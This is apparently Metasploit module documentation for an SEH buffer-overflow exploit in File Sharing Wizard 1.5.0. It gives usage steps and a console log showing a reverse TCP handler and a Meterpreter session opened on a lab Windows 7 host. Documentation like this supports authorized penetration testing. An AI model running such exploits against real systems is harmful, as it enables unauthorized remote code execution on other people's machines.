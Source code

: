 ## Description

This module exploits a vulnerability in File Sharing Wizard version 1.5.0 which
allows a remote attacker to obtain arbitrary code execution by exploiting a Structured Exception Handler (SEH) based buffer overflow in an HTTP POST parameter.

## Vulnerable Application

This module has been tested successfully on:

 * Windows 7 x86 SP1

The application installer is linked below

[File Sharing Wizard Installer](https://www.exploit-db.com/apps/da3a3626f99a85f9ab59ab77f083ff80-fs-wizard-setup.exe)

Once installed run the application and click "Start" to enable the server.

## Verification Steps

 1. Start `msfconsole`
 2. Do: `use exploits/windows/http/file_sharing_wizard_seh`
 3. Do: `set rhosts [IP]`
 4. Do: `run`
 5. Your payload should get executed

## Scenarios

```
msf5 > use exploit/windows/http/file_sharing_wizard_seh
msf5 exploit(windows/http/file_sharing_wizard_seh) > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101
msf5 exploit(windows/http/file_sharing_wizard_seh) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.101:80 - Connecting to target
[*] 192.168.56.101:80 - Sending payload to target
[*] Sending stage (180291 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.101:49164) at 2019-10-03 23:09:18 +0100

meterpreter > sysinfo
Computer        : TARGET
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```
